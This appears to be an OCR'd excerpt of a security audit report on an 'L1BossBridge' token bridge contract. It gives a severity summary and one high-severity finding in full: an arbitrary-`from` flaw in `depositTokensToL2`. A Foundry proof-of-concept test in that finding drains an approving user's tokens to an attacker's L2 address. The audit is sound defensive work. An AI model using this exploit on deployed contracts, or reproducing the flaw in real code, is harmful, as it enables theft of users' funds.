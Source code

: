 # Executive Summary

## Issues found

| Severity | Number of issues found |
| -------- | ---------------------- |
| High     | 4                      |
| Medium   | 1                      |
| Low      | 1                      |
| Info     | 0                      |
| Gas      | 0                      |
| Total    | 6                      |

# Findings

## High 

### [H-1] Users who give tokens approvals to `L1BossBridge` may have those assest stolen

The `depositTokensToL2` function allows anyone to call it with a `from` address of any account that has approved tokens to the bridge.

As a consequence, an attacker can move tokens out of any victim account whose token allowance to the bridge is greater than zero. This will move the tokens into the bridge vault, and assign them to the attacker's address in L2 (setting an attacker-controlled address in the `l2Recipient` parameter).

As a PoC, include the following test in the `L1BossBridge.t.sol` file:

```javascript
function testCanMoveApprovedTokensOfOtherUsers() public {
    vm.prank(user);
    token.approve(address(tokenBridge), type(uint256).max);

    uint256 depositAmount = token.balanceOf(user);
    vm.startPrank(attacker);
    vm.expectEmit(address(tokenBridge));
    emit Deposit(user, attackerInL2, depositAmount);
    tokenBridge.depositTokensToL2(user, attackerInL2, depositAmount);

    assertEq(token.balanceOf(user), 0);
    assertEq(token.balanceOf(address(vault)), depositAmount);
    vm.stopPrank();
}
```
